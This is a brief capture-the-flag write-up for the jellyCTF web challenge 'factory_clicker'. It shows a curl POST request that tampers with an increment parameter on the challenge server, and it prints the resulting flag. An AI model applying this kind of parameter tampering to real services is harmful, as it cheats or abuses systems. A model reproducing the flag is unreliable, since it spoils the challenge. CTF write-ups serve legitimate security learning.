

# factory_clicker

## Difficulty

Easy

## Points Earned

100

## Description

> Author: LISP BEAMER
> 
> https://factory-clicker.jellyc.tf/



## Solution

With the network tab open in Chrome devtools, I saw that a POST request with the increment amount is sent whenever I clicked the pipe.

Send a POST request for 500,000,000,001 pipes using CURL:

```bash
> curl -X POST https://factory-clicker.jellyc.tf/increment?increment_amount=500000000001
{
  "flag": "jellyCTF{keep_on_piping_jelly}",
  "score": 500000000001
}

```

## Flag

`jellyCTF{keep_on_piping_jelly}`